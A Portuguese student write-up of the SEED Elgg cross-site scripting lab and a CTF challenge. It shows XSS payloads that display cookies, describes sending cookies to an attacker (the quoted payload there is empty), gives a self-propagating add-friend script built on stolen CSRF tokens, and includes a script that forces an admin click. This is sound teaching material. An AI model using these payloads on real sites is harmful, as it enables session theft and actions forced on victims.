# Task 1

Nesta tarefa,  com as credenciais que foram providenciadas anteriormente entramos, nós entramos na aplicação web com as credenciais da Alice e colocamos no campo "brief description" o código html: 

``<script>alert('XSS');</script>``


 


 

# Task 2

Esta tarefa foi parecida com a anterior. Foi pedido para apresentar as cookies do utilizador no ecrã, assim, alteramos o código do script anterior:

``<script>alert(document.cookie);</script>``





# Task 3

Nesta tarefa foi pedido para roubar as cookies do utilizador, isto é, diferente da tarefa anterior que apenas mostrava as cookies, agora queremos que elas sejam enviadas para o atacante.
Desse modo, foi preciso que o código fizesse um *request* ao atacante, que pode ser feito se inserirmos uma imagem através do código que tente aceder a um url na máquina do atacante.
Assim, após editar o código, tivemos como resultado:

``<script>document.write(’’); </script>`` 

De modo que quando a aplicação web enviar o request HTTP, aparecem os cookies do utilizador na nossa máquina.



# Task 4

Nesta tarefa foi pedido para alterarmos um script JS que fizesse com que qualquer pessoa que abrisse o nosso perfil se tornasse amigo de Samy automaticamente.

Para descobrir o pedido url que temos de efetuar adicionou-se o Charlie como amigo e analisou-se o pedido enviado.

`http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1642389872&__elgg_token=Mvvc6e0GM1SRrm7qgj4iEA&__elgg_ts=1642389872&__elgg_token=Mvvc6e0GM1SRrm7qgj4iEA `

Analisando o pedido enviado, concluímos que existe um parâmetro `friend` que define o utilizador a adicionar e as tokens de identificação `__elgg_token` e `__elgg_ts` que identificam quem manda o pedido. Para descobrir o id do Samy inspecionamos o elemento da página "http://www.seed-server.com/members".



Analisando o id "elgg-user-58" verificamos que o id corresponde ao do parâmetro friend, concluímos então que o id do Samy é 59.

Com os dados adquiridos criamos então um script que adiciona o Samy como amigo.

Código utilizado:
```html
<script type="text/javascript">
    window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var samyID = 59;
    var sendurl = "../action/friends/add?friend="+ samyID + ts + "&__elgg_token=" + token + "&__elgg_ts=" + ts + "&__elgg_token=" + token; 
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

Para testar se o script funciona logamos com o utilizador Boby e visitamos a página do Samy.



Inicialmente o script aparenta não funcionar, mas apôs dar refresh à página verificamos que o Samy foi adicionado como amigo.

### Question 1: Explain the purpose of Lines 1 and 2, why are they are needed?

As linhas 1 e 2 são usadas para sabermos os tokens do utilizador que abriu o perfil de Samy, algo que apenas o mesmo deve ter acesso e é preciso para fazer um pedido de amizade em nome dele.

### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Não é possível, pois o modo de editor substitui os caracteres "perigosos" por outros como o `<` por `&lt`



Na imagem acima vemos o código HTML quando tentamos introduzir o mesmo script no modo de editor.


# CTF 10

## Desafio 1

Neste desafio somos abordados com um serviço constituido por um "administrador" que valida todos os inputs recebe. Usando uma vunerabilidade Cross-Site Scripting (XSS) iremos injetar javascript e executar ações em nome de o administrador.

Ao entrar no site `http://ctf-fsi.fe.up.pt:5002/` pela primeira vez deparamo nos com uma caixa de input e um butão submit. Como a unica coisa que o site faz é receber o input do div com o id="giveflag" tentamos injetar javascript nesse mesmo input.





Como recebemos o alert podemos assumir que o administrador ao verificar o nosso pedido também o recebe. Como no enunciado é dito que o administrador tem acesso ao botão `Give The Flag` só temos de arranjar uma maneira de o fazer premir o mesmo.

Para forçar o administrador a clicar no botão `Give The Flag` foi dado como input o seguinte código:
```html
<script>
    document.getElementById("giveflag").click();
</script>
```





Como podemos observar apôs inserir o input e esperar o tempo necessário para o administrador validar o pedido conseguimos obter a flag{d75c5d11669ca8dc110ce033e77068f3}.
